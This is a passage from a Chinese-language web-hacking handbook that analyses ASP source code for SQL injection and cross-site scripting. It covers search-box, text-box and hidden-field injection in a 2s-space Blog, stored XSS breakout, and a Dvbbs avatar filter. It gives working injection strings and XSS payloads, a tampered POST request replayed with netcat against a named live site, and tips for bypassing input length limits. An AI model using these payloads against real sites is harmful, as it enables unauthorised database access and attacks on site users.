    response.write "<tr><td><font color=#ff0000>Sorry,您所查找的内容不存在</font></td></tr>"
    .......
    .............
%>


```

可以看到上面的代码，我们要搜索的参数只过滤了两边的空格，并没有过滤这个参数的其他内容，所以这里也有注入漏洞。不过在上面的 SQL 查询语句中，因为使用的是模糊查询，和我们平时所使用的查询语句有一些不同，不过我们仍然可以利用，下面就开始我们的攻击介绍吧！

在上面的代码中我们也看到，实现搜索的查询功能和一般的查询有一些不一样。这里再整理一下这条 SQL 查询语句，它一般是这样写的：Select 相应的字段 from [表名] where 搜索条件 like '%keyword(关键字)%'。这里使用的是 like 操作符加上单引号实现的模糊查询，而且大部分搜索功能都是这样的，就算有什么区别，它们的原理也是一样的。

我们知道如果 keyword（关键字）没有过滤的话，那么就会出现注入漏洞。我们可以这样来进行注入攻击，如：科技%' and 1=1 and '%'='。此时查询语句变成了 Select 相应的字段 from [表名] where 搜索条件 like '%科技%' and 1=1 and '%'='%'。这样就能搜索出很多与科技相关的资料，而当我们把 1=1 改成 1=2 的时候返回的页面就是空白。我们来说说为什么会这样，看看 like 后面的字符“%科技%' and 1=1 and '%'='%'”，把它转换成逻辑运算为：真 and 真 and 真，那么它的结果也就为真，所以可以返回我们要搜索的资料，如图 7-8 所示。而当我们把 1=1 换成 1=2 后，就变成了“%科技%' and 1=2 and '%'='%'”，即 真 and 假 and 真，所以结果也就为假，那么就什么也搜索不到，结果当然是返回错误了，如图 7-9 所示。
图 7-8 输入科技%' and 1=1 and '%'=' 后搜索出结果
图 7-9 输入科技%' and 1=2 and '%'=' 后搜索结果没有

对于搜索型的注入，如果我们要手工注入其实也挺好办的，我们只需要在搜索输入框中输入：[搜索关键字]%' and [注入攻击代码] and '%'='。搜索关键字就是我们要搜索的关键字，如前面的“黑客”就是搜索关键字。不过这个关键字在选择上也是有一定讲究的，我们选的关键字一定要在这个网站中可以搜索到；如果这个关键字在网站中搜索不到资料，那么这个关键字就不可以用来作为我们注入的关键字。

而对于“注入攻击代码”，就是我们要进行手工注入的代码，这里我用中括号把它括起来了，目的是方便大家理解。这里的注入攻击代码和我们在 URL 中所使用的注入代码是一样的。比如我们要判断网站后台的数据库类型，那么我们输入：黑客%' and user>0 and '%'='%' 就可以了。和上面唯一改变的就是中间的注入攻击代码。所以我们在搜索中进行注入攻击的话，只需要改变中间的代码，其他的不变即可。在第二章已经给大家详细介绍了手工进行注入攻击的步骤了，这里不再重复。

对于喜欢偷懒的黑友来说，工具可谓是最方便的了。而我们大名鼎鼎的 NBSI 和 HDSI 都提供了对搜索型注入漏洞的注入，只要我们得到了搜索页面的 URL 地址，那么就可以用它们来进行工具注入了，非常方便。

前面在讲 ASP 基础的时候，已经给大家介绍了 GET 和 POST 这两种提交数据的方式，不知道大家有印象没？如果没有，可以参考第 6 章的 6.2.1 节。我们在通过 GET 方式提交数据的时候，所有的参数及值都放入了 URL 中，成为 URL 的一部分。例如百度在搜索的时候就是采用的这种方式，如我们搜索“黑客手册”，就可以看到“黑客手册”在经过编码后放入到了 URL 中（黑客手册经过编码为 %BA%DA%BF%CD%CA%D6%B2%E1）。在这个 URL 中，通过“?”、“&”将多个变量和值连在一起，这个 URL 是传输搜索关键字“黑客手册”，而 cl 的值为 3，如图 7-10 所示。
图 7-10 百度采用 GET 方式提交数据

对于采用 GET 方式提交的搜索，我们只需要把其 URL 填入工具中即可进行注入攻击了。不过需要注意的是，填入的 URL 中搜索关键字一定要填入，而且是能够搜索到的关键字，如图 7-11 所示。
图 7-11 若采用 GET 提交数据，用工具注入

还有很多网站在搜索的时候是采用 POST 提交数据的。采用 POST 提交数据的话，我们提交的数据在 URL 地址栏中是看不到的。它将表单中的数据放在 FORM 的数据体中，按照变量和值相对应的方式传递到 action 所指的 URL。相对于 GET 提交方式，POST 的隐藏性要强很多，所以更多人忽略了它的安全，这也是所谓的“隐藏式的搜索型注入点”。

对于采用 POST 提交数据的搜索页面要实施注入攻击的话，首先就要我们自己动手来查找出隐藏变量并赋予正确的值，并正确构造出注入 URL，剩下的事情就交给工具了。

这里我找到一个采用 POST 提交数据的网站，在搜索输入框中输入计算机%' and 1=1 and '%'='，所有符合的页面都会搜索出来。再把“1=1”改成“1=2”，则显示空白页。如果变量少的话，我们可以自己找出其中的变量并赋上相应的值，然后把值手动变成这样的形式：

```text
http://www.xxx.com/search.asp?value1=值&value2=值&keyword=计算机


```

这样才能够把该地址填入到注入工具的地址栏里，让工具替我们工作。

如果变量很多的话，我们还只能手动抓包来实现。实现抓包有一个很好的工具叫 WsockExpert，使用它可以检测出我们计算机当前所有的进程信息及提交数据的变化。打开 WsockExpert，单击工具条里的“打开进程”按钮，会出现一个进程列表，选择该网站的 IE 进程，点击打开就可以监视我们提交的数据了，如图 7-12 所示。选取 POST 抓取的数据包，如图 7-13 所示。有的网站搜索参数比较多，如果太多了的话，注入工具 NBSI 在这方面处理得不是很好，所以参数很长很多的话，最好用 HDSI，它处理得比较好。
图 7-12 选择要监听的进程

```http
GET /search?client=navclient-auto&googleip=0:66.249.89.104:782&girm=VmNC&orig=00g5L&ie=UTF-8&oe=UTF-8&querytime=udC&features=Rank:&q=info:http%3a%2f%2fwww%2einstrumen%2ecom%2ecn%2fdownload%2fsearch%2easp%3fkeywords%3d... HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; Google Toolbar 4.0.1601.4978-big; Windows XP 5.1; MSIE 6.0.2900.2180)
Host: toolbarqueries.google.com
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: PREF=ID=01cb4bf79df2f92:NV=1:TM=1173005918:LM=1173005918:S=iL2wXJL_cy90XU02


```

图 7-13 POST 提交时的数据

在图 7-13 中，所有的变量都在一起了，而我们要做的就是把它们放在网站的 URL 地址之后，把它们组合成 GET 提交数据时的那种形式，再用工具进行攻击。

在这一节中，为大家讲解了搜索型的注入攻击。因为搜索采用的是模糊查询，所以和其他注入攻击方式有一点不同。如果要进行手工注入的话，只需要采用“[搜索关键字]%' and [注入攻击代码] and '%'='”就可以顺利完成手工注入。如果采用工具的话又分为 GET 和 POST：如果采用 GET，则直接利用搜索后的 URL 放入工具中就可以注入攻击了；如果是 POST，则需要抓包得到其变量及其值，然后组合成一个完整的 URL，最后再用工具进行入侵。

#### 7.3.3 文本框输入内的注入代码分析

文本框在我们的 Web 系统中非常普遍，它的主要功能是供我们输入数据。既然有数据输入，那么肯定要和服务器进行交互，即有数据在浏览器和服务器之间传递。根据我们前面的经验，只要有数据交互，如果没过滤的话，就会出现安全问题。因为文本框在系统中并不起眼，所以很多程序员忽视了它的存在。就算有一些程序员意识到了这个问题，可一个系统中有那么多的文本框，经常使得他们力不从心，所以文本框也是一个出现漏洞比较频繁的地方。

相信大家在进入论坛看帖子的时候都注册过会员了。在我们注册会员的时候需要填入一大堆个人信息，填好之后提交就可以了，而且现在大部分网站在进行会员注册的时候都不允许出现两个相同的用户名或电子邮件，如图 7-14 所示。
图 7-14 论坛注册页面

要实现这个功能，首先要编写一个表单，然后在表单中编写很多文本输入框。当我们点击提交按钮的时候，我们在输入框中输入的数据都被传送到了服务器端。我们来看看存在文本输入框的 ASP 代码。看文本框中的客户端代码，这里的主要目的是得到不同文本输入框的 name 属性值，因为服务器端是靠这个属性来识别不同的文本输入框。查找系统中文本输入框的漏洞，第一步就是确定不同文本输入框的 name 属性值：

```html
用户名： </td>
<td bgcolor="#FFFFFF"><input name="UserName" type="text" id="UserName" size="10" maxlength="10" onChange="rgname();">
<!-- 用户名输入框的 name 属性为 UserName -->

.........
密码： </td>
<td bgcolor="#FFFFFF"><input name="Password" type="password" id="Password" size="20" maxlength="20" onkeyup="CheckTextContentWithLimit">
<!-- 密码输入框的 name 属性为 Password -->

.........
确认密码： </td>
<td bgcolor="#FFFFFF"><input name="PasswordR" type="password" id="PasswordR" size="20" maxlength="20">
<input name="Email" type="text" id="Email">
&nbsp;<b><font color="#FF0000">*</font></b> 请输入真实的电子信箱地址。 </td>
<!-- 电子邮件输入框的 name 属性为 Email -->


```

从上面我们可以确定，用户名的值为 UserName，密码为 Password，电子邮件为 Email。确定了这些信息后就可以分析服务端，看看这些是如何被处理的。不过这里还要告诉大家一个寻找文本输入框 name 属性的小技巧：首先打开存在文本输入框的网页，查看它的源文件，然后利用记事本的搜索功能搜索关键字“<input”，如图 7-15 所示。
图 7-15 搜索网页中的文本输入框

下面我们来看看上面的文本框中的数据是如何在服务器上处理的，核心处理代码如下所示：

```vb
set rsrg=server.CreateObject("ADODB.Recordset")
sqlrg="SELECT admin FROM admin WHERE admin='"&Request.Form("Username")&"'"
'获得我们输入的用户名，没有过滤就进行了查询数据库
rsrg.open sqlrg,conn,1,1
IF not (rsrg.EOF AND rsrg.BOF) Then
    response.write "<script LANGUAGE='javascript'>alert('您的用户名已经有人注册，如果已是注册用户请先登陆!');history.go(-1);</script>"
    response.end
end if
rsrg.close
set rsrg=nothing

set rsreg=server.CreateObject("ADODB.Recordset")
sqlreg="select * from admin"
rsreg.open sqlreg,conn,1,3
rsreg.addnew

rsreg("admin")=Request.Form("Username")   '用户名没有过滤
rsreg("psw")=md5(Request.Form("Password")) '密码没有过滤
rsreg("sex")=Request.Form("sex")
if Request.Form("qq")<>"" then
    rsreg("qq")=Request.Form("qq")
end if
rsreg("email")=Request.Form("email")      '电子邮件没有过滤
rsreg("pinglunt")=0
rsreg("score")=0
rsreg("dengji")=1
rsreg("dscore")=50
rsreg("logintime")=now()
rsreg.update  '上面的数据没有进行过滤就执行了更新操作
rsreg.close
set rsreg=nothing
```

在上面的代码中，我们输入的用户名首先要检查是否已经在数据库中存在，所以要执行查询数据库操作，但是系统是这样处理的：

```vb
sqlrg="SELECT admin FROM admin WHERE admin='"&Request.Form("Username")&"'"
```

在用 Request.Form 获得我们输入的用户名后就直接放入数据库中查询，所以出现了严重的注入漏洞。比如我们输入 123 and user>0 就可以判断这个系统后台用的是什么数据库。利用文本输入框来进行注入攻击和我们在 URL 中都是差不多的，用“关键字 and 注入攻击代码”就可以完成注入漏洞攻击，如 123 and 1=1、123 and 1=2 等等。

其实，前面我们说的搜索型注入也是属于文本输入框注入的一种，它们唯一的区别是搜索型注入是模糊查询，我们需要用一些逻辑运算符和单引号闭合 SQL 语句，防止因为单引号不对称而出错。前面我们说的 `'or'='or'` 漏洞也是如此，`'or'='or'` 中的单引号的目的也是为了闭合 SQL 语句，防止它出错。

对于这样的文本输入框注入漏洞，我们同样也可以利用工具 NBSI 和 HDSI 进行注入，我们只需要得到这个文本输入框的完整 URL 就可以实现。至于如何得到完整的 URL 地址，在上一节的搜索型注入漏洞中已经介绍得很详细了，这里和上一节是完全一样的方法，所以这里就不再重复了。

要查找一个系统中的文本输入框注入漏洞，主要有以下几个步骤，这里给大家总结一下：

- 先查看网页（即系统架构后的客户端）中的源代码，搜索关键字“<input”。得到我们所要查找的输入框，记下每一个输入框的 name 属性值。
- 利用已经得到的 name 属性值，在系统文件中（即 ASP 服务端文件）找到它们，看它们是如何被获取及处理的。如果没有过滤或者过滤不完全，就存在漏洞。
- 因为存在漏洞，所以我们就要进行攻击。要进行攻击可以使用工具和手工。用手工进行注入的话，使用这样的语句：“关键字 and 注入攻击代码”就可以了，和在 URL 中注入差不多，只是关键字要我们自己构造；而使用工具注入自然方便，但是要得到完整的 URL 地址是关键，上一节已经介绍了如何获得完整 URL 地址。

#### 7.3.4 隐藏域 HIDDEN 下的注入代码分析

在第 3 章中介绍 HTML 基础知识的时候，我就特别向大家提到了隐藏域 HIDDEN，详见 3.5.3 节。当时我就告诉大家，这个地方也是程序员容易忽视的地方，很容易出现安全问题。而本节我就是带领大家来探索它下面所暗藏的另一番天地。

在表单中，如果其输入 `<input>` 标记中的 type 种类是 hidden 的话，那么这个提交框我们就看不到了，也就被隐藏起来了，而它变量的值也是通过隐藏式提交完成的。对于隐藏域 HIDDEN 方面的漏洞，曾经 2s space Blog 就出现过这类典型漏洞，下面就让我们来看看它出现问题的代码吧，如下所示：

```vb
Dim comms_ID
comms_ID=CheckStr(Request.QueryString("commID"))
'获得客户端输入的参数，并对它进行过滤了

If Not IsInteger(comms_ID) Then comms_ID=0
'用于验证 comms_ID 是否为数值，如果不是就将它的值设为 0

Set comm_Edit=Conn.Execute("SELECT * FROM blog_Comment WHERE comm_ID="&comms_ID&"")
'读取评论，如果评论不存在就退出

SQLQueryNums=SQLQuery+1
IF comm_Edit.EOF AND comm_Edit.BOF Then %>
```

```vb
<td class="messagebox-title">评论不存在</td>
Else
//如果存在，就对用户名及权限进行判断
IF Not ((comm_Edit("comm_Author")=memName and CheckRights(memStatus, "Edit")>0) Or CheckRights(memStatus, "Edit")>1 Then%>
<td class="messagebox-title">你无权进行此项操作</td>
comm_Content=CheckStr(Request.Form("message"))
comm_ID=Request.Form("comm_ID")
//获取 comm_ID 的值赋给 comm_ID，没有经过过滤
comm_Author=Request.Form("comm_Author")
Comm.exeCute("UPDATE blog_Comment Set log_ID="&log_ID&", comm_Content='"&comm_content"', comm_DisSM="&comm_DisSM&", comm_DisUBB="&comm_DisUBB&", comm_DisIMG="&comm_DisIMG&", comm_AutoURL="&comm_AutoURL&", comm_Hidden="&comm_Hidden&", comm_Highlight="&comm_Highlight&", comm_Hidden="&comm_Hidden&" WHERE comm_ID="&comm_ID)
```

不细心的朋友可能会说，上面已经对 comms_ID 进行验证了呀，如果不是数值就赋予其为 0，怎么会有漏洞呢？大家仔细对照一下，在第一个解释和倒数第二个解释中的两个变量，是不是有一些不一样呢？第一个解释 Request.QueryString 接收的参数是 commID；而倒数第二个解释中所接收的参数是 comm_ID，两个不是同一个变量啊。在第三行代码中我们验证的是 comms_ID，看着和倒数第二个解释中所接收的参数 comm_ID 是一样的，实际上却相差了一个字符。而 comm_ID 就顺利地进入了最后一行代码中，实行了 UPDATE 操作了。在前面也可以看到 comm_ID 并没有进行任何的过滤，所以这里就出现了漏洞啦。

那么参数 comm_ID 是如何提交的呢？其实它用的是隐藏方式，在 commedit.asp 中有这么一句：`<input name="comm_ID" type="hidden" id="comm_ID7" value="<%=comm_Edit("comm_ID")%>">`。我们可以查看客户端的源代码，如图 7-16 所示。

图 7-16 查看参数 comm_ID

分析代码漏洞就是要这样，细心非常重要。上面的代码中的参数看上去都过滤，但是程序员却忘记了一个。目前国内大部分稍微好一点的系统，对绝大多数参数是肯定过滤了的，我们要找的就是要从中找出一些被程序员忽略或者不小心忘记过滤的参数。下面我们来简单测试一下这个漏洞。

因为上面的代码是用于更新评论，也就是说我们可以对自己的评论进行修改，而就是在这个修改的过程中出现了漏洞。首先我们在本地搭建好环境或者在网络上找到使用这个系统的网站来，这里我用 www.gxllb.com 这个网站来做试验，然后随便进入一个日志下发表评论，在发表的同时，勾选“同时注册”，如图 7-17 所示。这样我们发表评论的同时也会注册一个用户，发表成功以后，回到该评论所在的日志页，如图 7-18 所示。

图 7-17 添加评论并同时注册

图 7-18 编辑评论

其中有一个类似于铅笔头的图标（我已经在图 7-18 中标记了）就是进入 commedit.asp 的，打开它我们就可以进入“编辑评论”的窗口了。为了详细了解数据的提交过程，我们打开 WinSock Expert，选择“编辑评论”页进行监听，如图 7-19 所示。

图 7-19 选择要监听的进程

这里我们把原来的内容 123 改成 zyh，提交之后就可以看到 WinSock Expert 的内容：

```http
POST /blog/commedit.asp?action=postedit HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
application/x-shockwave-flash, application/vnd.ms-excel,
application/vnd.ms-powerpoint, application/msword, */*
Referer: http://www.gxllb.com/blog/commedit.asp?commID=7
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: www.gxllb.com
Content-Length: 66
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONIDSSBTBBQS=JHLHLNHBJMCBCANJKELBJCEO;
Mysitwe2=memPassword=4297F44B13955235245B2497399D7A93&memName=123;
ASPSESSIONIDSSBQDBSQ=HLDLPOHBGKDICPILFMCCJHCN

ID=1&comm_Author=123&comm_AutoURL=1&message=zyh&comm_ID=7&log_ID=1
```

注意看抓取到的数据的最后一行，我们可以看到 message=zyh 也就是把我们原来的内容 123 改成了 zyh。而参数 comm_ID=7 则就是该系统没有被过滤掉的参数，利用它我们就可以来进行注入攻击了。我们将 comm_ID=7 改为 comm_ID=7+and+1=1，其中空格我们可以用 + 代替，这点大家要记住了哦。

修改了上面的数据之后，我们把它保存为 1.txt 文件。接下来就是要把这些数据提交到服务器了。这个时候给大家推荐一个工具，那就是非常经典的黑客工具瑞士军刀 NC，如图 7-20 所示。

```bash
C:\Documents and Settings\Administrator\桌面>nc -help
[v1.11 NT www.vulnwatch.org/netcat/]
connect to somewhere:    nc [-options] hostname port[s] [ports] ...
listen for inbound:      nc -l -p port [options] [hostname] [port]
options:
    -d                 detach from console, background mode
    -e prog            inbound program to exec [dangerous!!]
    -g gateway         source-routing hop point[s], up to 8
    -G num             source-routing pointer: 4, 8, 12, ...
    -h                 this cruft
    -i secs            delay interval for lines sent, ports scanned
    -l                 listen mode, for inbound connects
    -L                 listen harder, re-listen on socket close
    -n                 numeric-only IP addresses, no DNS
    -o file            hex dump of traffic
    -p port            local port number
    -r                 randomize local and remote ports
    -s addr            local source address
    -t                 answer TELNET negotiation
    -u                 UDP mode
```

图 7-20 NC 的使用帮助

利用它我们就可以把数据提交到服务器上去了。把数据提交到服务器上我们需要使用到这个语法：`nc -v 网址 80<需要提交的文件`，比如 `nc -v www.sina.com 80<d.txt`，那么就会将 d.txt 中的内容提交到 sina 的服务器上去了。而上面的这个漏洞，我们只需要提交 `nc -v www.gxllb.com 80<d.txt` 就可以把我们修改后的数据提交到网站服务器上去了，如图 7-21。提交之后我们刷新一下当前的日志页，评论内容变成了 zyh，说明 1=1 测试成功，如图 7-22 所示。

```bash
C:\Documents and Settings\Administrator\桌面>nc -v www.gxllb.com 80<1.txt
DNS fwd/rev mismatch: www.gxllb.com != 79.196.128.61.in-addr.arpa
www.gxllb.com [61.128.196.79] 80 (http) open
HTTP/1.1 100 Continue
Proxy-Connection: Keep-Alive

HTTP/1.1 200 OK
Connection: close
Date: Mon, 05 Mar 2007 01:17:53 GMT
Server: Microsoft-IIS/6.0
X-Powered-By: ASP.NET
Content-Length: 6558
Content-Type: text/html
```

图 7-21 利用 nc 提交数据

图 7-22 123 被修改为 zyh，1=1 测试成功

而如果我们把 `comm_ID` 的值改为 `7+and+1=2`，那么评论就不会被修改了，因为执行之后整条语句变为了假，所以不执行 update 操作。对于这个漏洞其实利用过程是比较麻烦的。不过思路是这样的：首先抓包，修改数据，修改数据的时候要注意，空格我们全部用 + 代替，其他的就和我们在 URL 下注入是一样的了。只不过每次攻击都要抓包及提交数据，稍微麻烦一点，但这也是常见的攻击手段之一。

前面讲的几种注入漏洞参数的寻找方法，大部分都是基于 `<input>` 标记的。之所以用它来作为例子，是因为程序员在写程序的时候最容易忘记的就是那些参数。不过很多程序员都对 `<input>` 标记中的长度做了限制，利用 maxlength 属性可以实现，如 maxlength="10" 的时候，就最多允许我们输入 10 个字符，如果仅仅是输入 10 个字符的话，那肯定攻击不了。所以这个时候我们要破解它的长度限制，首先将网页保存在本地，然后查看当前的源代码，搜索关键字 maxlength 就可以找到这个限制的地方了，比如我们把它的值修改成 maxlength="10000"。不过有一点要千万注意，就是包含这个 `<input>` 的标记的表单，它的 action 属性我们要把它改成绝对路径，即网址的全称，因为在没有保存的情况下是属于相对路径，而我们保存之后就要把 action 的值改成绝对路径了。如图 7-23 所示。

图 7-23 破解输入长度限制

前面的隐藏域，其实要攻击它还有一个好办法，首先将网页保存在本地，然后查看源代码。因为它是隐藏的属性 hidden 所以我们看不到，如果我们把它的 type 属性改成了 text 呢，那么不就可以看到它了，如图 7-24，同时把表单 action 值改成绝对路径，那么它现在就和前面所讲的文本输入框的攻击方法是一样的了。

对于注入漏洞的代码分析，我也就讲上面几种程序员最容易重视和忽视的了。其实大家看完了上面的就应该可以知道，虽然上面注入攻击的方法比较多，但总的来说，我们只要掌握了手工注入的方法，加上适度的变化，就可以以不变应万变了。

图 7-24 改为 text 后就可以见到输入框了

而对于寻找系统中的注入漏洞，就是要看程序员对哪些参数没有过滤，2s-space Blog 这个例子大家也可以看到，在安全性比较高的系统中，大部分参数都已经过滤，只有那些小系统才会有很多明显的参数未过滤。当然不管它是安全性高也好安全性低也罢，我们都是要找未过滤的参数。这里教给大家一个好方法，用于寻找系统中的参数特别有效。有了前面分析代码的经验，可以看出，要发生注入漏洞都要执行相应的 SQL 语句，之所以发生注入就是因为在 SQL 语句中的参数未过滤就执行了，所以寻找注入漏洞的一个好方法是首先得到 SQL 语句中的参数名称，特别是在 where 后的条件参数。在得到它们的名称以后，我们就逆向地分析，看这个参数是怎么样得到的，是否过滤了等等。通过 SQL 语句中的每一个参数逆向分析它是怎么得到的，这样几乎每一个参数都不会被遗漏。这个方法虽然比较笨，但准确率比较高。

### 7.4 脚本跨站漏洞（XSS）

第二章和第四章中已经为大家介绍了跨站漏洞了，特别是在第 4 章中，已经给大家介绍了跨站脚本漏洞的成因及其各种利用过程和方法。我们也知道跨站主要分为自己构造 HTML 标签和利用系统提供的标签这两大类，而本节就从这两个角度上通过对代码的分析，看这些漏洞是如何形成的。

#### 7.4.1 构造 HTML 标记的跨站漏洞代码分析

我们自己通过构造 HTML 标记来实施跨站，是最为常见和普通的跨站方法。之所以会出现，是系统没有转换如 `<`、`>` 等标记，而让这些具有特定功能的标签进入了数据库中，从而使得代码执行了，最后发生安全问题。发生这种用户自己构造 HTML 标记的跨站，本质上就是系统没有检查我们输入的数据中到底含有什么字符，那么这方面典型的代码有，如下所示：

```vb
Dim gb_Content,gb_Title,gb_memName,gb_IsPublic,gb_qq,gb_email,gb_url,gb_face
gb_Content=CheckStr(Request.Form("message"))
//输入的消息过滤已经被转换了
gb_memName=CheckStr(Request.Form("gb_memName"))
//输入的用户名被转换了
gb_IsPublic=Request.Form("gb_IsPublic")
//信息未过滤，但是并没有放到数据库中
gb_qq=Request.Form("gb_qq")
//获得我们输入的 QQ 号码
gb_email=Request.Form("gb_email")
//获得我们输入的电子邮件地址，未过滤
gb_url=Request.Form("gb_url")
//获得我们输入的个人主页地址，也没有过滤
gb_face=Request.Form("gb_face")
...............................省略代码
Conn.ExeCute("INSERT INTO blog_Member
(mem_Name,mem_Password,mem_LastIP,mem_email,mem_qq,mem_homepage) VALUES
('"&gb_memName&"','"&gb_memPassword&"','"&Guest_IP&"','"&gb_email&"','"&gb_qq&"','"&gb_url&"')")
```

大家可以再看一下最后的 INSERT 语句，变量 gb_email、gb_url 没有经过任何的过滤就执行 INSERT 语句了，最为明显的跨站了。我们在里面输入跨站代码 `<script>alert("曾云好")</script>`，之后没有发生跨站，查看一下返回的源代码，如下所示：

```html
<a href="mailto:<script>alert(\"曾云好\")</script>">
曾云好</b>">
</a>&nbsp;&nbsp;<a target='_blank' href="'<script>alert(\"曾云好\")</script>'">
曾云好</b>的主页"></a>&nbsp;&nbsp;<a
 target='_blank' href="http://friend.qq.com/cgi-bin/friend/user_show_info?ln=353454354">
曾云好</b> 的信息"></a>&nbsp;&nbsp;<br>
</div><div class="content_main" style="font-size:11px;">直接输入的跨站代码
</div></div><SCRIPT>load('24')</SCRIPT><br/><span class="smalltxt"></span><br/>
```

可以很清楚地看到我们的跨站代码被无情地给闭合，那接下来我们就来进行突破。输入邮件的代码是 `<a href="mailto:<script>alert(\"曾云好\")</script>">`，那么我们可以输入 `"><script>alert(\"曾云好\")</script><` 来突破。而个人主页那里也是一样，输入同样的代码，如图 7-25 和图 7-26 所示，我们就成功地进行了跨站攻击。

图 7-25 输入的重新改变的跨站代码

##### 图 7-26 跨站成功

对于上面的代码，是因为没有转换或检查我们输入的数据而导致的。但是还有一个条件，就是我们输入的数据要进入数据库中去。所以要执行插入或者更新，即 `INSERT` 或 `UPDATE`，才可以进入数据库中。所以对于我们输入 HTML 的跨站，一要转换我们输入的标记；二要我们输入的数据必须进入数据库，即执行 `INSERT` 或 `UPDATE` 操作。只要符合这两个条件就会发生跨站。

#### 7.4.2 利用系统提供的 HTML 标记的跨站

如果转换了一些跨站必须要用到的字符，如 `<`、`>` 等，那么我们通过自己构造标签来进行跨站攻击就不可能了。但是我们仍然可以跨站，即利用系统已经提供的标签来绕过系统对这些标签的转换，如 `` 等。在利用这些标签的属性及事件机制时，我们给它们赋予具有一定功能的值，那么同样可以达到我们跨站的目的。至于如何利用它们跨站，在第 4 章的 4.7.2 节已经做了详细的介绍。在这方面，头像跨站漏洞可谓是最为经典的了，其他利用系统提供的 HTML 标签进行跨站的原理和它都差不多。

这里我就用动网的头像跨站漏洞代码来分析这一方面的漏洞。在动网 7.1.0 版本中，文件 `mymodify.asp` 是用于资料修改的，在这个文件中对更新头像的代码处存在过滤不严的问题，部分代码如下所示：

```vb
Sub update()    '用于头像的更新
If Request.Form("myface") <> "" And ((Clng(Dvbbs.Forum_Setting(54)) > 0 And Not
Mypost < Clng(Dvbbs.Forum_Setting(54))) Or Clng(Dvbbs.Forum_Setting(54))=0) And
Not InStr(LCase(Request.Form("myface")),".asp")>0 Then
    '第一步：作用是对是否符合自定义头像的条件进行验证。
    If Request.Form("width")="" or Request.Form("height")="" Then
        '第二步：验证我们提交的宽高值，如果是空就出现错误提示
        ..........略        '省略的代码
Else
If Cint(Dvbbs.Forum_Setting(55))=0 Then
    '第三步：如果图片的宽高符合要求，那么就从后台设置中读取是否允许从其他站点链接头像，0 为关闭，如设置为关闭则进行下面的验证。
    If InStr(lcase(Request.Form("myface")),"http://")>0 or
       instr(lcase(Request.Form("myface")),"www.")>0 Then
        ErrCodes=ErrCodes+"<li>"+template.Strings(21)
    End If
End If
Face=Request.Form("myface")
    '第四步：将 myface 的值赋予 face。
width=Request.Form("width")    '获得宽度
height=Request.Form("height")  '获得高度
End If
Else
Dvbbs.Forum_userface = Split(Dvbbs.Forum_userface,"|||")
If Request.Form("face")="" Then
    '第五步：如果 myface 提交值为空，则把 Request.Form("face") 的值赋予 face。
    Face=Dvbbs.Forum_userface(0)&Dvbbs.Forum_userface(1)
Else
    Face=Request.Form("face")
End If
End If
face=Dv_FilterJS(Replace(face,"'",""))
    '第六步：使用函数 Dv_FilterJS() 和 Replace() 对提交来的字符进行过滤
face=Replace(face,"..","")
face=Replace(face,"\\", "/")
face=Replace(face,"^","")
face=Replace(face,"#","")
face=Replace(face,"%","")
face=Replace(face,"|","")
face=Left(face,200)
.........略
Rs("UserFace")=face    '将过滤后的 face 写入数据库
```

我先对上面的 “myface” 和 “face” 变量说明一下，它们分别是动网的自定义头像（myface）和论坛内置头像（face）。我们现在来整理一下上面的思路：

第一步，如果提交来的自定义头像（myface）不为空，且用户发帖量达到程序设置的最少发帖数，还有就是提交的路径中没有 “.asp” 这个关键字，满足了这三个条件，程序就转入第二步，否则跳到第五步去执行。这里我假设条件满足，那么我们就进入第二步，对提交的图片宽高等数据进行验证，符合条件才可以进入第三步。在这一步内，先读取后台的设置，看系统是否关闭了“允许从其他站点链接头像”，如关闭，就执行下面的语句，验证数据的合法性。

当符合要求或开启“允许从其他站点链接头像”选项，就进行至第四步。在这一步中，将经过层层过滤后的 “myface” 值赋予 “face”，然后转至第六步，用 `Dv_FilterJS()` 及 `Replace()` 对 “face” 再进行过滤！这就是 “myface” 的提交过程。再来看 “face” 的提交过程，在前面也提到了，如果提交的 “myface” 为空，或者用户所发帖量小于规定的数值，或者自定义头像名称中含有 “asp”，程序就会自动跳至第五步，直接将 `Request.Form("face")` 值赋予 `face`。这里内置头像的读取方法非常简单。

无论是 “myface” 还是 “face”，最后都要经过第六步 `Dv_FilterJS()` 及 `Replace()` 的过滤。虽然使用内置头像的 `Request.Form("face")` 方法可以提交一些特殊字符，所以要挖掘这个漏洞，关键就在 `Dv_FilterJS()` 中。下面再着重分析一下 `Dv_FilterJS()` 是如何过滤的：

```vb
Function Dv_FilterJS(v)
If Not Isnull(V) Then
Dim t
Dim re
Dim reContent
Set re=new RegExp
re.IgnoreCase =True
re.Global=True
re.Pattern="(%)"   '使用的是正则表达式
t=re.Replace(v,"<I>%</I>")  '将字符 % 替换为 <I>%</I>
re.Pattern="(&#)"
t=re.Replace(v,"<I>&#</I>")
re.Pattern="(script)"
t=re.Replace(t,"<I>script</I>")  '将字符 script 替换为 <I>script</I>
re.Pattern="(js:)"
t=re.Replace(t,"<I>js:</I>")
re.Pattern="(value)"
t=re.Replace(t,"<I>value</I>")
re.Pattern="(about:)"
t=re.Replace(t,"<I>about:</I>")
re.Pattern="(file:)"
t=re.Replace(t,"<I>file:</I>")
re.Pattern="(Document.cookie)"
t=re.Replace(t,"<I>Documents.cookie</I>")
re.Pattern="(vbs:)"
t=re.Replace(t,"<I>vbs:</I>")
re.Pattern="(on(mouse|Exit|error|click|key))"
t=re.Replace(t,"<I>on$2</I>")
Dv_FilterJS=Trim(t)
Set Re=Nothing
End If
End Function


```

可以看到，上面的程序对跨站所用到的 “script”、“js:”、“Document.cookie”、“on(mouse|Exit|error|click|key)”、“&#” 等字符都进行了过滤。而且在 `Dv_FilterJS()` 后面又用 `Replace()` 对其没有过滤的 “'”、“..”、“\”、“^”、“#”、“%”、“|” 全部进行了替换。

